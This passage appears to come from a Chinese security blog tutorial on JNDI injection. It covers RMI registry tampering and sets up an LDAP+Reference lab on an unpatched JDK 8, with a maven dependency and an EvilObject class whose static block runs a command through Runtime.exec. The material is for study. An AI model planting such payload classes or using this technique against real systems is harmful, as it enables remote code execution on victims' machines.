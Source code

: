 其实在[**Mi1k7ea**](https://www.mi1k7ea.com/)大佬的博客中提到了多种攻击方式，但是我觉得其最终原理都是基于修改RMI的注册表，最终使得客户端从RMI的注册中获取到的是一段恶意代码，就这一点就可以概括利用方式了，就是如果我们能拿到RMI注册表修改权限就能写入恶意代码从而入侵客户端。

## LDAP攻击

通过LDAP攻击向量来利用JNDI注入的原理和RMI攻击向量是一样的，区别只是换了个媒介而已，下面就只列下LDAP+Reference的利用技巧，至于JNDI注入漏洞点和前面是一样的就不再赘述了。

### LDAP+Reference攻击实验

环境准备

- JDK 1.8.0_73 或其他 1.8 版本（避免 JNDI 劫持的相关安全补丁影响）
- 任意支持 Java 的 IDE 或文本编辑器

引入以下maven依赖项

```xml
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>6.0.11</version>
    <scope>test</scope>
</dependency>
```

代码结构如下：

```
/jndi-labs2/
    ├── EvilObject.java	# 恶意代码
    ├── LadpClient.java	# Ladp客户端
    ├── LadpServer.java # Ladp服务端
```

我这里就不本地javac，然后java再去这样执行了，直接用IDEA进行调试了，还是IDEA方便

### EvilObject

```java
package jndi_labs2;
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;
public class EvilObject implements ObjectFactory {
    static {
        try {
            Runtime.getRuntime().exec("cmd /c start");
        } catch (IOException ignore) {}
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```
